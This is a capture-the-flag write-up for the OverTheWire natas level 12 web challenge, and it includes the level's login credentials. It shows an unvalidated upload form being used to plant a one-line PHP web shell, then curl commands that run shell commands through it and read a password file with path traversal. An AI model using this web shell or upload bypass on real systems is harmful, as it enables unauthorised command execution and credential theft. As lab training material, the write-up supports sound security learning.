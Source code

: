 # natas level12
natas is CTF with web application.
password will be written `/etc/natas_webpass/natas12`.

## using credential is below.
- User:natas12
- Pass:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

## using tools.
- shell(curl, base64, etc)
- lynx
check web site by lynx.
`lynx http://natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3@natas12.natas.labs.overthewire.org`

This page has image upload function.
And I check upload function in source code, it don't validate file is image or not.

I try to upload text file, and it is successfully. 
`curl -X POST http://natas12.natas.labs.overthewire.org/index.php -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 -F submit=1 -F filename=ws.txt -F MAX_FILE_SIZE=1000 -F "uploadedfile=@./test.txt;type=image/jpg"`

~~~
The file <a href="upload/gwbho3moo1.txt">upload/gwbho3moo1.txt</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
~~~

if we access this url, we can see content of this file.

curl http://natas12.natas.labs.overthewire.org/upload/gwbho3moo1.txt -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 --verbose

I upload webshell by this upload function.
~~~
<?php echo passthru($_GET['cmd']); ?>
~~~

I can upload file and uri is `upload/d1h0n2raxm.php`.

And I can send command by this webshell. if we do following command, we can see current directory.
`curl http://natas12.natas.labs.overthewire.org/upload/d1h0n2raxm.php?cmd=pwd -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 --verbose`

And I got password with following command.
`curl 'http://natas12.natas.labs.overthewire.org/upload/d1h0n2raxm.php?cmd=cat+../../../../../etc/natas_webpass/natas12' -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 --verbose`

password is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

